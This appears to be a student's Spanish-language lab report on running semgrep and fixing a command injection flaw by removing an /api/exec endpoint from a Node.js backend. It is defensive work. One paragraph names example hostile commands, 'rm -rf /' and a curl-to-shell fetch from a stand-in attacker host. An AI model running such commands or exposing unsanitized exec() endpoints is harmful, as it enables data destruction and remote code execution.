








# Analisis estatico con semgrep

Daniel Guaman


## Levantar aplicacion

Arreglar docker compose y ejecutar la aplicacion





## Analisis estaticon con semgrep

ejecucion del analisis con el comando

```
semgrep ci
```



Vulnerabilidad a resolver



diff de los cambios aplicados para resolver la vulnerabilidad de `apps\analisis-vulnerabilidades\backend\index.js:154`

Vulnerabilidad de Command Injection resuelta. Cambios realizados:

1. Eliminada la importación de exec de child_process (línea 5)
2. Eliminado el endpoint /api/exec completo (líneas 149-160) que ejecutaba comandos arbitrarios del sistema
3. Actualizado el mensaje de inicio

El endpoint permitía a cualquier atacante ejecutar comandos como rm -rf /, curl attacker.com | sh, etc. La única solución segura es eliminarlo por completo, ya que no hay forma de sanitizar entrada de usuario para exec() de manera confiable.




Volver a ejecutar el analisis estatico




Evidencia que se resolvio una vulnerabilidad, eliminando la referencia a `apps\analisis-vulnerabilidades\backend\index.js:154`


## Comprobar funcionamiento despues de resolver la vulnerabilidad



